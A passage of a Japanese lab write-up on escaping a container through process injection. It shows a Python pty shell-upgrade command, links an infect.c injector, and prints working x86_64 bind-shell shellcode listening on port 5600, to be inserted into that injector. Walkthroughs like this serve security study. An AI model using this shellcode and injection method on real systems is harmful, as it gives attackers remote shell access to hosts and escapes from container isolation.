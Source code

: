 </div>

　コンテナから脱獄するためのプロセスインジェクションについては以下の記事が分かりやすいです。  
なぜ Python のプロセスをインジェクション対象に選んだのかなど、詳しく説明されています。    

[https://tbhaxor.com/container-breakout-part-1/#lab-process-injection:embed:cite]

#### シェルを Full TTY にアップグレード

　プロセスインジェクションを実施する前に、シェルを使いやすくするため「**Full TTY**」シェルにアップグレードします。  

　Pythonが導入されているので、Pythonを活用した方法で実施しています。  

<div class="md-code" style="width:100%">

```
python3 -V
Python 3.9.2

python3 -c "import pty;pty.spawn('/bin/bash')"
root@533e4e3fac01:/#

root@533e4e3fac01:/# uname -a
Linux 533e4e3fac01 4.14.313-235.533.amzn2.x86_64 #1 SMP Tue Apr 25 15:24:19 UTC 2023 x86_64 GNU/Linux
```

</div>

#### プロセスインジェクションの実行

　実行中のプロセスにシェルコードをインジェクションするために、以下のC言語プログラムを利用します。  

[https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c:embed:cite]

このC言語プログラムの説明はこの記事が参考になります。  

[https://0x00sec.org/t/linux-infecting-running-processes/1097:title]

<br>

　プロセスにインジェクションするシェルコードは以下のコードを拝借します。  

[https://www.exploit-db.com/exploits/41128:embed:cite]

<div class="md-code" style="width:100%">

```
\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05
```

</div>

　シェルコードを反映したC言語プログラムは以下のようになります。  
「`unsigned char *shellcod =`」と「`#define SHELLCODE_SIZE 32`」の行を書き換えています。  

　このファイルを「`inject.c`」という名前で保存します。
